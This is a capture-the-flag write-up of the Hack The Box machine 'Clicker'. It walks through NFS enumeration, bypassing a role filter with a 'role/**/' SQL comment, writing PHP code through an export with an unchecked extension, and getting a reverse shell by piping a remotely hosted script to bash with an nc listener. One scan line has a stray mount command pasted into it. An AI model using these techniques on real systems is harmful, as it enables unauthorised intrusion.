



# HTB Machine Writeup: Clicker
### By: gnos1s

### Machine Difficulty: Medium
### Machine Release Date: 24 September 2023
### Operating System: Linux

## Enumeration

As usual, we start off with our Nmap scan:

```
$ cat nmap.nmap
# Nmap 7.92 scan initiated Sun Sep 24 09:47:09 2023 as: nmap -sC -sV -oA nmap 10.10.11.232
Nmap scan report for 10.10.11.232
Host is up (0.62s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 89:d7:39:34:58:a0:ea:a1:db:c1:3d:14:ec:5d:5a:92 (ECDSA)
|_  256 b4:da:8d:af:65:9c:bb:f0:71:d5:13:50:ed:d8:11:30 (ED25519)
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Did not follow redirect to http://clicker.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      35527/tcp   mountd
|   100005  1,2,3      41440/udp6  mountd
|   100005  1,2,3      53169/tcp6  mountd
|   100005  1,2,3      56229/udp   mountd
|   100021  1,3,4      34033/tcp6  nlockmgr
|   100021  1,3,4      38125/tcp   nlockmgr
|   100021  1,3,4      39227/udp6  nlockmgr
|   100021  1,3,4      47429/udp   nlockmgrsudo mount -t nfs 10.10.11.232:/mnt/backups /mnt/backups
|   100024  1          38425/udp6  status
|   100024  1          49807/udp   status
|   100024  1          50219/tcp   status
|   100024  1          52075/tcp6  status
|   100227  3           2049/tcp   nfs_acl
|_  100227  3           2049/tcp6  nfs_acl
2049/tcp open  nfs_acl 3 (RPC #100227)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 24 09:49:42 2023 -- 1 IP address (1 host up) scanned in 153.73 seconds
```

We can see HTTP and NFS open. Let's first check out the website. The website appears to be a browser clicking game, where you repeatedly click a button to get more points and level up. We can register and log in:

 

We also saw NFS from our Nmap scan, so we can see if we can mount anything there.

```
$ showmount -e 10.10.11.232
Exports list on 10.10.11.232:
/mnt/backups                        *
```

It seems like we can mount /mnt/backups. I'll go ahead and mount that:

```
$ sudo mount -t nfs 10.10.11.232:/mnt/backups /mnt/backups
$ cd /mnt
$ ls -al
total 12
drwxr-xr-x  3 root   root    4096 Oct  5 13:35 .
drwxr-xr-x 18 root   root    4096 Sep  5 20:19 ..
drwxr-xr-x  2 nobody nogroup 4096 Sep  5 20:19 backups
$ cd backups
$ ls -al
total 2240
drwxr-xr-x 2 nobody nogroup    4096 Sep  5 20:19 .
drwxr-xr-x 3 root   root       4096 Oct  5 13:35 ..
-rw-r--r-- 1 root   root    2284115 Sep  1 21:27 clicker.htb_backup.zip
```

We can see a zip file. Let's go ahead and unzip that. Inside apperas to be all of the website's source code. The website appears to be a PHP webapp. This will definitely be useful for exploitation later!

```
$ ls
admin.php          db_utils.php    index.php   play.php
assets             diagnostic.php  info.php    profile.php
authenticate.php   export.php      login.php   register.php
create_player.php  exports         logout.php  save_game.php
```

Heading back to the website, we can click on 'Play' at the top. It redirects us to play.php, where we can click again and again to gain points. It's actually kind of fun, and I spent some time playing it. (I already hacked my score in the picture lol)


When we press Save and Close, the server sends a request to save_game.php with our clicks and level. We probably have to exploit this function somehow.

Looking through the source code, there are a lot of possible SQL injection endpoints but none of them will work (Trust me, I tried). An interesting thing is the save_game.php page:

```
$ cat save_game.php
<?php
session_start();
include_once("db_utils.php");

if (isset($_SESSION['PLAYER']) && $_SESSION['PLAYER'] != "") {
	$args = [];
	foreach($_GET as $key=>$value) {
		if (strtolower($key) === 'role') {
			// prevent malicious users to modify role
			header('Location: /index.php?err=Malicious activity detected!');
			die;
		}
		$args[$key] = $value;
	}
	save_profile($_SESSION['PLAYER'], $_GET);
	// update session info
	$_SESSION['CLICKS'] = $_GET['clicks'];
	$_SESSION['LEVEL'] = $_GET['level'];
	header('Location: /index.php?msg=Game has been saved!');
	
}
?>
```

It appears that the server is not letting us modify our 'role', which most likely prevents us from getting admin privileges. It does mean that we can change any other columns though. Looking at the columns from db_utils.php, nothing we can change would really help us.

```
function create_new_player($player, $password) {
	global $pdo;
	$params = ["player"=>$player, "password"=>hash("sha256", $password)];
	$stmt = $pdo->prepare("INSERT INTO players(username, nickname, password, role, clicks, level) VALUES (:player,:player,:password,'User',0,0)");
	$stmt->execute($params);
}
```

The server doesn't let us change our role, but who said we can't? Remember, the server only filters for the string "role". This means that if the string was something else but the database still interpretes it as "role", we will be able to modify our role. There are probably many ways to do this, but the one I used was with comments. /* and */ are comments in MySQL that won't get executed. This means we can put the parameter "role/**/ = admin" and the payload will bypass the filter!


We change this, log out, and log back in. We can see an additional 'Administration' option at the top of the page!


## Digging Deeper

Looking at the Admin page, we can see all of the player's nickname, clicks, and level. However, the more interesting is this Export button. Reading through the source code, we can export all of the data to many different formats. But there is an Else at the end, meaning we can change the extension to whatever we want and it will still export!

```
<?php
session_start();
include_once("db_utils.php");

if ($_SESSION["ROLE"] != "Admin") {
  header('Location: /index.php');
  die;
}

<snip>

if ($_POST["extension"] == "txt") {
    $s .= "Nickname: ". $currentplayer["nickname"] . " Clicks: " . $currentplayer["clicks"] . " Level: " . $currentplayer["level"] . "\n";
    foreach ($data as $player) {
    $s .= "Nickname: ". $player["nickname"] . " Clicks: " . $player["clicks"] . " Level: " . $player["level"] . "\n";
  }
} elseif ($_POST["extension"] == "json") {
  $s .= json_encode($currentplayer);
  $s .= json_encode($data);
} else { // This is where we can exploit!
  $s .= '<table>';
  $s .= '<thead>';

<snip>

  }
  $s .= '</tbody>';
  $s .= '</table>';
} 

$filename = "exports/top_players_" . random_string(8) . "." . $_POST["extension"];
file_put_contents($filename, $s);
header('Location: /admin.php?msg=Data has been saved in ' . $filename);
?>

```

We can change the extension to be in .php format, so that if we inject code the server will execute it. But first, we need to make sure that we can set one of the fields to inject PHP. The three columns given to us are Nickname, Clicks, and Level. Clicks and Level are integers, so we can't do anything about that. We can change our nickname though! Using the endpoint from earlier, we can set our nickname to a PHP RCE:



We can give it a try and see what we get:




It has been saved. Now, we can try testing it out:


It worked! The id command was executed. Now, we can leverage this RCE to get a reverse shell. I'm not sure if special characters work here, so I'm not gonna do anything fancy. Just gonna set up a shell script from a HTTP server and pipe it to bash.


```
$ python3 -m http.server
Serving HTTP on :: port 8000 (http://[::]:8000/) ...
::ffff:10.10.11.232 - - [05/Oct/2023 20:56:24] "GET /shell.sh HTTP/1.1" 200 -
```

```
$ nc -lvvvnp 4444 -s 10.10.16.31
Listening on 10.10.16.31 4444 (krb524)
Connection from 10.10.11.232:53864
bash: cannot set terminal process group (1200): Inappropriate ioctl for device
bash: no job control in this shell
www-data@clicker:/var/www/clicker.htb/exports$ 
```

It worked! We now have a shell as www-data.

## Shell as jack